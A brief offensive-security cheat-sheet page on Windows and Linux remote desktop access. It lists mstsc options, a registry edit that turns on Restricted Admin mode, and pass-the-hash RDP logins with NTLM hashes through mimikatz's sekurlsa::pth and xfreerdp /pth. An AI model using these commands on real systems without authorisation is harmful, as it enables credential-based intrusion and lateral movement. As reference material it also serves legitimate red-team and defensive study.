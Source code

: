 # Remote desktop

## Windows RDP

### Remote Desktop

{% hint style="info" %}
/admin allows to not disconnect connected user
{% endhint %}

```csharp
 mstsc.exe /admin
```

#### Restricted Admin

Allow to use the current user credentials session to make a network connection without entering a password.

#### Enable Restricted admin

```csharp
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

```csharp
 mstsc.exe /restrictedadmin 
```

#### Using mimikatz

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## Linux RDP

### xfreerdp

```csharp
xfreerdp /d:domain  /u:user  /pth:NTLM_HASH  /v:DEST_IP
```

### rdesktop

```csharp
rdesktop DEST_IP   -u Domain\User -p Password
```

